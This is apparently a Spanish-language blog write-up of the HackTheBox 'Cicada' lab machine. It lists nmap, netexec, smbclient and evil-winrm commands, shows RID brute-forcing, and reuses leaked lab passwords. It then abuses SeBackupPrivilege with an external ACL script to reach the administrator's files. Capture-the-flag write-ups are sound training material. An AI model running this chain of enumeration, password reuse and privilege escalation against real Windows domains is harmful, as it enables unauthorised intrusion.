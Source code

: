 ```yaml
---
layout: single
title: write up Cicada HTB
excerpt:
date: 2025-2-15
classes: wide
header:
  teaser: https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/cicada_avatar.png
  teaser_home_page: true
categories:
  - hacking
  - Windows
  - Netexec
  - evil-winrm
  - Sebackupprivilege
  - Secretsdump
  - Impacket
  - Password Spray
  - hackthebox
tags:  
  - hacking
  - Windows
  - Netexec
  - evil-winrm
  - Sebackupprivilege
  - Secretsdump
  - Impacket
  - Password Spray
  - hackthebox
---
```


"Cicada" es una máquina de nivel fácil en la plataforma HackTheBox. La máquina ofrece una sesión como usuario invitado mediante el servicio SMB, el cual expone una contraseña por defecto para los nuevos usuarios. Realizamos un ataque de fuerza bruta sobre el RID para descubrir posibles usuarios y encontramos uno cuya contraseña se corresponde con la filtrada en el archivo. Con este nuevo usuario, conseguimos enumerar otros usuarios en el dominio o máquina, y uno de ellos tiene una nueva contraseña filtrada en su descripción. Este usuario es capaz de acceder a un recurso compartido adicional en SMB, donde se revelan las credenciales de otro usuario. Este tercer usuario puede conectarse a la máquina víctima a través de WinRM, obteniendo así acceso inicial. Ya dentro del sistema, descubrimos que el usuario tiene habilitado el privilegio SeBackupPrivilege, lo que le permite crear copias de archivos del sistema y extraer el hash NT del usuario Administrator. Con este hash, utilizamos un ataque Pass The Hash para suplantar al usuario Administrador, logrando así el control total sobre la máquina víctima.

lo primero como siempre el escaneo de nmap:

```bash
nmap -p- --open --min-rate 5000 -sT -Pn  -n -vvv 10.10.11.35 -oG allports
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214202729.png)

```bash
nmap -sVC -p53,88,135,139,389,445,464,593,636,3268,3269,5985,61563 10.10.11.35 -oN ports
```

```bash
# Nmap 7.94SVN scan initiated Sat Dec 14 15:11:03 2024 as: nmap -sVC -p53,88,135,139,389,445,464,593,636,3268,3269,5985,61563 -oN ports 10.10.11.35
Nmap scan report for CICADA-DC (10.10.11.35)
Host is up (0.033s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-14 20:14:10Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
61563/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h02m59s
| smb2-time: 
|   date: 2024-12-14T20:15:03
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 14 15:12:39 2024 -- 1 IP address (1 host up) scanned in 96.41 seconds
```

vale vemos que no hay ninguna web tirando por detras
pero por sim'ple vista vemos que se trara de un active directory de windows

por lo que para ver el nombre de la maquina y el nombre de dominio vamos a usar netexect

```bash
nxc smb 10.10.11.35
```
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214203431.png)

vemos que se llama CICADA-DC y cicada.htb
por lo que los añadimos al /etc/hosts
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214203608.png)
vale perfect

ahora vamos a verificar que exista el usuario anonmyous

```bash
nxc smb 10.10.11.35 -u 'anonmyous' -p ''
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214204117.png)

vemos que si
por lo que vamos a ver a que podemos acceder con este usuario usando smbmap

```bash
smbmap -H 10.10.11.35 -u 'anonymous'
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214204326.png)

no se ve muy bien en la imagen pero tenemos acceso a HR y IPC$
si nos metemos en HR

```bash
smbclient \\\\10.10.11.35\\HR -U 'anonmyou'
```

vemos lo siguiente:

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214204555.png)

si nos bajamos el archivo

```smb
get "Notice from HR.txt"
```

dentro de el vemos esto

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214204917.png)
vemos una contraseña por lo que por ahora solo nos faltan los usuarios

podemos intentar sacarlos con fuerza bruta con netexect

```bash
nxc smb 10.10.11.35 -u 'anonmyous' -p '' --rid-brute
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214205325.png)

vemos varios usuarios. aqui o una de dos o los ponemos todos en un txt y lo usamos gunto a netexect o provamos uno a uno ( yo ya se que usuario es por lo que me salto todo esto)

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214205510.png)
y es valido con el usuario michael

ahora si enumeramos los usuarios con este usuario encontramos algo curioso

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214205705.png)

vemos que el usuario david.orelious en su descripcion tiene la contraseña
por lo que mas facil para mi

una vez echo podemos ver a que tiene acceso este usuario david.orelious con smbmap

```bash
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214210149.png)

vemos que tenemos acceso a mas directorios
el mas interesante es el DEV por lo que vamos a ir a ese

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214210422.png)

vemos un archivo  .ps1
nos lo bajamos y vemos que hay dentro
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214210512.png)

y otra vez vemos credenciales y ademas se una usuaria a la cual la podemos hacer un evil-winrm

por lo que 
```bash
evil-winrm -i 10.10.11.35  -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214210642.png)

estamos dentro

## root

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214210921.png)

vemo que tenemos privilegio sobre los backups
lo cual se puede explotar para que nos deje acceder a cualquier directorio 
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

por lo que vamos a usar este exploit
https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1?source=post_page-----83ddcc0db5c7--------------------------------

lo subimos con python y una vez subido ejecutamos 

```powershell
. .\esc.ps1
```

y seguido podemos hacer el siguiente comando

```powershell
Acl-FullControl -user cicada\emily.oscars -path C:\users\administrator\desktop
```
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214211359.png)

y conseguimos el acceso

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/cicada/Pasted-image-20241214211442.png)

